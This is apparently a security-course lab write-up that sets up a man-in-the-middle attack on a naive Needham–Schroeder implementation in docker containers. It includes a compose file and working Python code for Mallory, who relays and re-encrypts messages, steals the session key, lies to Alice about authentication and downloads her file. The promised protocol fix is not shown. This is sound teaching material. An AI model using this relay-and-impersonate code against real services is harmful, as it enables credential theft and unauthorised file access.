 ```yaml
---
layout: post
title: Needham-Schroeder Lab
category: protocols
author: 'reo'
tags: python seclab docker man-in-the-middle
mathjax: 
---
```


In this lab, we examine vulnerabilities
present in the [Needham–Schroeder protocol](https://en.wikipedia.org/wiki/Needham%E2%80%93Schroeder_protocol).
We mount a man-in-the-middle on the naive implementation then secure the protocol against
this attack.

Similar to [our last lab](),
we will be using docker and docker-compose to emulate a real system.
with local filesystems,
public and private keys, and a network. The docker-compose file looks like

```yaml
version: '3.5'

services:
        
  alice:
    image: # private image
    container_name: alice
    depends_on:
          - "bob"
          - "mallory"
    tty: true
    volumes:
        - ./pubkeys:/pubkeys
    networks:
      my-network:
        ipv4_address: 10.0.0.2
  
  bob: 
    image: # private image
    container_name: bob
    tty: true
    volumes:
        - ./pubkeys:/pubkeys
    networks:
      my-network:
        ipv4_address: 10.0.0.3

  mallory:
    image: # private image
    container_name: mallory
    depends_on:
          - "bob"
    tty: true
    volumes:
        - ./mallory:/shared
        - ./pubkeys:/pubkeys
    command: python3 /shared/mallory.py --port=9999 --pubkeys=/pubkeys --privkey=/shared/private.pem --to=bob@10.0.0.3:9999 --filename=flag.txt /shared/fs/flag.txt
    networks:
      my-network:
        ipv4_address: 10.0.0.4

networks:
  my-network:
    name: my-network
    driver: bridge
    ipam:
      config:
        - subnet: 10.0.0.0/28
```

where `command` key indicates the bash command executed upon calling `docker-compose up`

<br>

***

## Overview

***

We first take a look at the base protocol.


We now look at the attack

```python
SERVER = 'mallory'
# the file size is limited to 1 mb
BUFFER_SIZE = 1048576

import os, socketserver, socket, base64, json
from Crypto.Random import get_random_bytes
from Crypto.PublicKey import RSA
from Crypto.Cipher import PKCS1_OAEP
from Crypto.Cipher import AES
```

As a Man-in-the-Middle, Mallory forwards information received from the
legitimate client to the server allowing them to authenticate.
Once authenticated, Mallory is able impersonate Alice and request files.

```python
def forward_client_hello(client_sock, server_sock, config):
    # receive client_hello from client
    rsa = RSA.importKey(open(config['privkey']).read())
    cipher1 = PKCS1_OAEP.new(rsa)

    payload = client_sock.recv(BUFFER_SIZE)
    message = cipher1.decrypt(payload).decode('utf-8')

    pub_rsa = RSA.importKey(open(config['pubkeys'] + '/' + config['to'] + '.pem').read())
    cipher2 = PKCS1_OAEP.new(pub_rsa)

    ciphertext = cipher2.encrypt(message.encode('utf-8'))
    # client_hello = json.loads(payload)
    # print('recv client: '+ payload)
    # forward client_hello to server
    server_sock.sendall(ciphertext)
    # print('send server: '+ payload)
    # update config
    # config['from'] = client_hello['from']
    print("sent nonce1 and pretending to be alice")

def forward_server_hello(client_sock, server_sock, config):
    # receive server_hello from server
    payload = server_sock.recv(BUFFER_SIZE)
    # print('recv server: '+ payload)
    # forward server_hello to client
    client_sock.sendall(payload)
    print('Forwarded Bobs response')

def forward_key(client_sock, server_sock, config):
    # receive key from client
    rsa = RSA.importKey(open(config['privkey']).read())
    cipher1 = PKCS1_OAEP.new(rsa)

    payload = client_sock.recv(BUFFER_SIZE)
    message = cipher1.decrypt(payload).decode('utf-8')
    data = json.loads(message)
    config['key'] = base64.b64decode(data['key'])

    pub_rsa = RSA.importKey(open(config['pubkeys'] + '/' + config['to'] + '.pem').read())
    cipher2 = PKCS1_OAEP.new(pub_rsa)

    ciphertext = cipher2.encrypt(message.encode('utf-8'))
    print('recv client: '+ message)
    # forward key to server
    server_sock.sendall(ciphertext)
    print("sent the private key to bob with nonce2")

def forward_authenticated(client_sock, server_sock, config):
    # receive authentication from client
    payload = server_sock.recv(BUFFER_SIZE)
    # print('recv server: '+ payload.decode())
    # send authentication failed to alice
    payload = json.dumps({'authenticated': False})

    pub_rsa = RSA.importKey(open(config['pubkeys'] + '/' + 'alice' + '.pem').read())
    cipher = PKCS1_OAEP.new(pub_rsa)

    ciphertext = cipher.encrypt(payload.encode('utf-8'))
    client_sock.sendall(ciphertext)
    print('send client: '+ payload)

def send_request(client_sock, server_sock, config):
    # create and send dowload request payload
    my_nonce = get_random_bytes(8)
    cipher = AES.new(config['key'], AES.MODE_EAX, nonce=my_nonce)
    payload = json.dumps({'request': 'download', 'filename': config['filename']})

    ciphertext = cipher.encrypt(payload.encode('utf-8'))

    server_sock.sendall(my_nonce + ciphertext)
    print("request to download alice's file!")
    # print('send server: '+ payload)

def receive_download(client_sock, server_sock, config):
    # receive the payload from the server
    payload = server_sock.recv(BUFFER_SIZE)
    nonce = payload[:8]

    cipher = AES.new(config['key'], AES.MODE_EAX, nonce=nonce)
    message = cipher.decrypt(payload[8:])
    # check if datapath exists
    dirname = os.path.dirname(config['filepath'])
    if not os.path.exists(dirname):
        os.makedirs(dirname)
    # and save the file locally
    file_out = open(config['filepath'], "wb")
    file_out.write(message)
    file_out.close()
    print('recv server: download ' + config['filename'] + ' into ' + config['filepath'])
```

The engine is as follows

```python
def generate_keys(config):
   key = RSA.generate(2048)
   private_key = key.export_key()
   dirname = os.path.dirname(config['privkey'])
   if not os.path.exists(dirname):
       os.makedirs(dirname)
   file_out = open(config['privkey'], "wb")
   file_out.write(private_key)
   file_out.close()
   if not os.path.exists(config['pubkeys']):
       os.makedirs(config['pubkeys'])
   public_key = key.publickey().export_key()
   file_out = open(os.path.join(config['pubkeys'], SERVER + '.pem'), "wb")
   file_out.write(public_key)
   file_out.close()

class MyTCPHandler(socketserver.BaseRequestHandler):
    def handle(self):
        with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as server_sock:
            server_sock.connect((config['host'], config['port']))
            forward_client_hello(self.request, server_sock, config)
            forward_server_hello(self.request, server_sock, config)
            forward_key(self.request, server_sock, config)
            forward_authenticated(self.request, server_sock, config)
            send_request(self.request, server_sock, config)
            receive_download(self.request, server_sock, config)
```

Remember to [clean up](/crypto/2020/10/08/05-lab.html#docker-cleanup)

{% include lab_credits.md %}

